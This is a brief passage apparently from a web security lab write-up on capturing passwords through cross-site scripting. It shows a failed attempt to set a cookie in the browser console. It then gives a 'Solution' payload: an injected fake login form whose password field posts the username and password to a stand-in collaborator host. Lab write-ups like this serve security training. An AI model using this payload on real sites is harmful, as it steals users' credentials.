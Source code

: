 ![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/4.png)

Next I opened the Firefox debugger's Console and set the cookie:

```
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/5.png)

But that does not work...


Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


